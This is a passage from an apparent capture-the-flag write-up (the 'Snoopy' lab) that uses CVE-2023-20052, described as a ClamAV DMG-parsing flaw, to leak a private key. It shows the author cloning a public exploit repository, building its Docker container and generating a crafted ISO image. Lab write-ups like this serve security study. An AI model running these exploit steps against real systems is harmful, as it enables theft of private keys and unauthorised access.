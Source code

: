 #### Exploit

I’ll upload this file again, and run it just like before. Where before it said
“text value is plst”, now it has the private key:

![image-20230510172335764](../img/image-20230510172335764.png)

### Public Exploit

Not long after the release of Snoopy, nokn0wthing put out [this
repo](https://github.com/nokn0wthing/CVE-2023-20052). It has a Docker
container that will generate the DMG file for me.

Following the instructions in the repo, I’ll clone it and build the container:

    
    
    oxdf@hacky$ git clone https://github.com/nokn0wthing/CVE-2023-20052.git
    Cloning into 'CVE-2023-20052'...
    remote: Enumerating objects: 15, done.
    remote: Counting objects: 100% (15/15), done.
    remote: Compressing objects: 100% (14/14), done.
    remote: Total 15 (delta 4), reused 4 (delta 0), pack-reused 0
    Receiving objects: 100% (15/15), 47.69 KiB | 2.17 MiB/s, done.
    Resolving deltas: 100% (4/4), done.
    oxdf@hacky$ cd CVE-2023-20052/
    oxdf@hacky$ docker build -t cve-2023-20052 .
    ...[snip]...
    

I’ll drop into the container, mounting the current directory in as the
`/exploit` directory:

    
    
    oxdf@hacky$ docker run -v $(pwd):/exploit -it cve-2023-20052 bash
    root@c1cff2f4ad04:/exploit# 
    

The first step is to generate an ISO image. There’s one in `/exploit`, but
I’ll delete it for the sake of demo:

    
    
    root@39e742dc1260:/exploit# rm test.img 
    root@39e742dc1260:/exploit# genisoimage -D -V "exploit" -no-pad -r -apple -file-mode 0777 -o test.img .
    genisoimage: Warning: no Apple/Unix files will be decoded/mapped
    Total translation table size: 0
    Total rockridge attributes bytes: 6878
    Total directory bytes: 36864
    Path table size(bytes): 240
    Max brk space used 1b000
    181 extents written (0 MB)
    